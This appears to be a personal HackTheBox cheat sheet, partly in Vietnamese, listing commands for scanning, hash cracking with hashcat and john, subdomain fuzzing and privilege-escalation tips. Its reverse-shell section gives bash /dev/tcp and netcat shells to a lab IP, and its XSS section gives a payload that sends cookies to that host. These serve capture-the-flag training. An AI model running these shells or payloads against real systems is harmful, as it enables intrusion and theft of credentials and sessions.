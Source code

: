 # HackTheBox

# nmap

nmap -sV -A

# set hosts

window: C:\Windows\System32\drivers\etc
linux: /etc/hosts

# hash

`hashid hash.txt` để detect loại hash, xong dùng `hashcat`

- brute force theo định dạng:

```
hashcat -a 3 -m 1400 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

- brute force theo wordlist:

```
hashcat -a 0 -m 3200 logan.txt /usr/share/wordlists/rockyou.txt
```

- john:

```
john --format=bcrypt --wordlist=$wordlists/passwords/rockyou.txt hash.txt
```

- `$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I`
- SHA, $salt:$pass, salt là chữ số ($d), dùng cyberchef đổi sang format hex để decrypt:
![image](https://github.com/h2oa/HackTheBox/assets/114990730/79fa4fc2-4317-4575-89bb-cda7a30e106a)
```
hashcat -a 0 -m 120 "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" /usr/share/wordlists/rockyou.txt
```

# ffuf

```
ffuf -c -ic -w /usr/share/wordlists/dirb/big.txt -u http://devvortex.htb  -H "HOST:FUZZ.devvortex.htb" -fs 154
```

# reverse shell

thử hết các dạng :)))

```
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.74/1337 0>&1'
nc -c sh 10.10.14.74 1337
```

```
echo bHM= |base64 -d|bash
```

- Stabilizing the shell:

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```

# xss

```
php -S 0.0.0.0:80
python -m http.server 80
<img src=1 onerror=fetch('http://10.10.14.74/'+document.cookie);/>
```

# Kinh nghiệm

- login page: brute force, default account (tùy công nghệ)
- input: SSTI, command injection
- check `/var/mail` lấy thông tin mail nếu có
- fuzz subdomain, directory (`dirb <domain>`), path (`ffuf`)
- vào sqldatase
- `sudo -l` check xem user hiện tại thực hiện được gì với quyền root (search CVE với bất kỳ gì hiện ra trước)
- Thử cả `sudo su` và `su`
